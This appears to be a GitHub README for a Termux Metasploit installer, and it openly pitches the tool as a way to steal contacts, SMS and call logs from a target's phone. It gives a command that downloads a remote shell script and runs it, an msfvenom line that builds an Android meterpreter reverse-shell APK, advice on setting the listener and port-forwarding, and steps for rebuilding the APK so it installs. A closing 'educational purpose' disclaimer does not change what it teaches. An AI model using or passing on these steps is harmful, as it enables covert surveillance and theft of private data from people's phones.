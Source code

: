 # metasploit
This tool will help you to steal contacts, sms, call logs and other thing of Target Mobile.
<p align="center"><img src="https://spportcovid19patient.000webhostapp.com/metasploit-696x363.png"></p>

<p align="center">
<img src="https://img.shields.io/badge/Python-3-brightgreen.svg?style=plastic">
<img src="https://img.shields.io/badge/Docker-✔-blue.svg?style=plastic">
</p>

<p align="center">
  <a href="https://twitter.com/jeopardy4u"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://instagram.com/loathfaith"><b>Instagram</b></a>
  <span> - </span>
  <a href="https://github.com/loathsomeguy"><b>Tej's Page</b></a>
</p>

## Installation

### Termux

```bashapt update && upgrade
termux-setup-storage
pkg update && pkg upgrade -y
apt-get install curl
apt-get install wget
apt-get install git
pkg install postgresql
wget https://raw.githubusercontent.com/loathsomeguy/metasploit/main/metasploit.sh
chmod +x metasploit.sh
./metasploit.sh
```
## After installation complete
Start `postgresql`
```bash
./postgresql_ctl.sh start
```
And run `msfconsole`
```bash
msfconsole
```
## Cmd to generate payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.29.29 LPORT=6767 R > /sdcard/payload.apk
```

## What will be my LHOST & LPORT?
```
LHOST: your local ip of wifi/mobile network

LPORT: you can use any port
```
## Payload Not isntalling, Giving Parsing Error?
```
1. Install apk editor pro in your mobile
2. Open Apk Editor Pro and "select an apk fiel and choose your payload"
3. Click "FULL EDIT (Resource Re-Build)"
4. Select Manifest in bottom right corner
5. Now Search for SDK and change target sdk version to 22
6. Now save and again save to rebuild the apk
7. Go to APK Editor Pro folder and install that File

```
## How it is useful?

* It is used to retrieve all the messages, contacts, call-logs from the Target Mobile on the same or different Network. However you need to learn how to do port-forwarding in order to do it on different network.

## Warning
***This tool is only for educational purpose. If you use this tool for other purposes except education we will not be responsible in such cases.***
